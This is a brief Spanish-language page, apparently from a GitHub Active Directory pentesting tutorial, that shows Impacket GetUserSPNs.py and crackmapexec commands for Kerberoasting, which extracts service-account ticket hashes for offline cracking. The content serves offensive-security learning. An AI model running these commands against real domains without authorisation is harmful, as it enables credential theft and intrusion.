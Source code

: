 # Obtener usuarios kerberoasteables

```Bash
# Obtención de hash de usuarios con el SPN habilitado
python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip <DC ip> <nombre dominio completo>/<user>:<pass> -outputfile kerberoasting.hashes

# Hash con crackmapexec
crackmapexec ldap <IP ldap> -u '<user>' -p '<pass>' -d <nombre dominio completo> --kerberoasting <output file>

```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/kerberoasting/files/vid.gif?raw=true "Obteniendo hashes de usuarios con SPN habilitado")
